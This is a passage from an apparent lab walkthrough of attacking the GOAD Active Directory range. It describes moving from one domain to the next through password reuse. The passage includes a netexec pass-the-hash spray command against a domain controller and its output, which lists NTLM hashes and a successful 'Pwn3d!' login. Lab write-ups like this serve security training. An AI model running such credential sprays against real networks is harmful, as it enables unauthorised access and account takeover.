 BAM! DA in child domain achieved! I can now also impersonate any user within the domain. With the first domain compromised, it was time to spread fire to the next.

## Second Domain Compromise

<br>
<div style="background-color: #F0C4B49C; padding: 5px; border-radius: 10px">
	<p style="color: #000000">
		<b style="color: #000000">Warning:</b> The method I used to compromise the remaining two domains was unintended by the author of GOAD. It was an artifact due to the Ludus + GOAD implementation. However, it does serve as a realistic scenario that I have ran into myself whilst delivering penetration tests.
        <br>
        <b style="color: #000000">Check the following “Alternative Path” sections of this blog for compromise methods which were meant to be part of GOAD.
</b>
	</p>
</div>
<br>

### Password Re-use

Targeting a new domain simply means that I go back to square one in terms of my methodology. As I mentioned previously, that includes going for low hanging fruit first. In the case of domain -> domain compromise, I will often start off with testing for password re-use across domain admin accounts. It is very common for service accounts or admin accounts to re-use the same password across two or more domains. Blame the human nature for this one, we are lazy and convenience always wins.

In this case, since we do not have that many users to test, I will just check them all. To do so, I saved the users from my NTDS dump to `users.txt` file. Then I saved the hashes for each user to `pass.txt`.

***Note: if you are following along: make sure to keep the user and its corresponding hash on the same line within both files, i.e. user on line 1 in users.txt should have its NTLM hash on line 1 in pass.txt.***

After constructing these files, I could blast them at the `SEVENKINGDOMS.LOCAL` DC and see which one reports the `Pwn3d!` flag, if any. I used Netexec for this, and made sure to specify the `--no-bruteforce` flag which will perform the <b>user1 -> pass1, user2 -> pass2</b> type of spray. I also slapped on `--continue-on-success` just in case I get multiple valid creds, as I did not want it to stop after finding just the first valid pair.

```
# nxc smb 10.2.10.10 -u users.txt -H pass.txt --no-bruteforce --continue-on-success

SMB         10.2.10.10      445    KINGSLANDING     [*] Windows 10 / Server 2019 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\KINGSLANDING$:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\Administrator:dbd13e1c4e338284ac4e9874f7de6ef4 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [+] sevenkingdoms.local\localuser:8846f7eaee8fb117ad06bdd830b7586c (Pwn3d!)
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\WINTERFELL$:dcde0a27d7168720846cc3ecec02b60e STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\localuser:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\NORTH$:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\SEVENKINGDOMS$:1a9fa36e47adf4e38aadca283cc7b499 STATUS_LOGON_FAILURE
SMB         10.2.10.10      445    KINGSLANDING     [-] sevenkingdoms.local\CASTELBLACK$:fc58e6ddb73769bfd7a05fbb1ff11f89 STATUS_LOGON_FAILURE
```